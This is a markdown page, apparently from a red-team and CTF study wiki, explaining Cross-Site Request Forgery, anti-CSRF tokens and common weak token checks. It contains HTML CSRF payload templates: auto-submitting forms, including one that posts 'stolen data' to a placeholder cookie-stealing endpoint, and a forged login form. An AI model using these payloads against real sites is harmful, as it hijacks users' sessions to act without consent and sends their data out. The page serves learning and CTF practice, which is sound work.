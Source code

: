 # Cross-Site Request Forgery

[![introductiontowebapplications](../../../../_badges/htb/introductiontowebapplications.svg)](https://academy.hackthebox.com/course/preview/introduction-to-web-applications)
[![session_security](../../../../_badges/htb/session_security.svg)](https://academy.hackthebox.com/course/preview/session-security)
[![cross-site_request_forgery_prevention](../../../../_badges/owasp/cross-site_request_forgery_prevention.svg)](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)
[![csrf_injection](../../../../_badges/poat/csrf_injection.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSRF%20Injection)
[![csrf_0_protection](../../../../_badges/rootme/web_client/csrf_0_protection.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSRF-0-protection)
[![csp_bypass_inline_code](../../../../_badges/rootme/web_client/csp_bypass_inline_code.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Inline-code)
[![csp_bypass_jsonp](../../../../_badges/rootme/web_client/csp_bypass_jsonp.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-JSONP)

<div class="row row-cols-lg-2"><div>

Fundamentally, Cross-Site Request Forgery (CSRF) refers to using the session of a user logged to a website to perform API calls without their consent. For instance, an API call to modify their password.

If a cookie was set with `SameSite: None` which is not the default, it can be accessed and exploited from any site.

Many modern browsers have built-in anti-CSRF measures, such as with the `Content-Security-Policy` header ([refer to CSP](files/csp.md)).

[XSS](/cybersecurity/red-team/s3.exploitation/vulns/web/xss.md) is a common attack technique to perform a CSRF attack, by injecting a form that automatically submit itself.

📚 During CTFs, it may take between one and five minutes.
</div><div>

You can find payloads on [PayloadsAllTheThings/CSRF](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSRF%20Injection). You can test the payload with a [HTTP Requests Grabber](/cybersecurity/red-team/_knowledge/topics/request_grabber.md) first during CTFs.

```html!
<form id="autosubmit" action="https://<target_form_URL>" method="post">
  <input type="text" name="xxx" value="yyy" hidden>
  <button type="submit">Submit</button>
</form>
<script>
 document.getElementById("autosubmit").submit();
</script>
```

```html!
<form id="fdata" action="//refer/to/stealing/cookies" method="POST">
<input type="hidden" id="data" name="data" value="nop" />
<input type="submit" value="Submit" />
</form>
<script defer>
document.getElementById('data').value='stolen data';
document.getElementById('fdata').submit();
</script>
```
</div></div>

<hr class="sep-both">

## Anti-CSRF Token

[![sqlmapessentials](../../../../_badges/htb/sqlmapessentials.svg)](https://academy.hackthebox.com/course/preview/sqlmap-essentials)
[![session_security](../../../../_badges/htb/session_security.svg)](https://academy.hackthebox.com/course/preview/session-security)
[![gitlabcve20237028](../../../../_badges/thm-p/gitlabcve20237028.svg)](https://tryhackme.com/r/room/gitlabcve20237028)
[![unbakedpie](../../../../_badges/thm-p/unbakedpie.svg)](https://tryhackme.com/r/room/unbakedpie)

<div class="row row-cols-lg-2"><div>

Some websites have a CSRF token, mostly attached to HTML forms, as a form of protection against CSRF attacks and other automation tools.

It's a generated value that is added to the form, often as a hidden HTML `<input>` field. It proves that someone submitting a form effectively visited the page with the form beforehand.

CSRF tokens should be randomly generated. Do not use `md5(username)` or similar guessable token generation functions.

Many tools have built-in switches to handle/bypass such forms.
</div><div>

A few other inappropriate settings

* The server only checks if the header is present
* The server only checks if the length of the token
* The server only checks the token if it was sent
* We can use someone else's CSRF token
* We can reuse a CSRF token
* Verb tampering may bypass CSRF verification

There is also the [Double-Submit Cookie Pattern](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html#alternative-using-a-double-submit-cookie-pattern) but it can be bypassed by giving an arbitrary value to both the cookie and the header.
</div></div>

<hr class="sep-both">

## Additional Payloads

<div class="row row-cols-lg-2"><div>

Login form

```html!
<form id="autosubmit" action="URL" method="post">
<input name="username" value="toto">
<input name="password" value="toto">
<button type="submit" class="btn btn-default">Submit</button>
</form>
```
</div><div>
</div></div>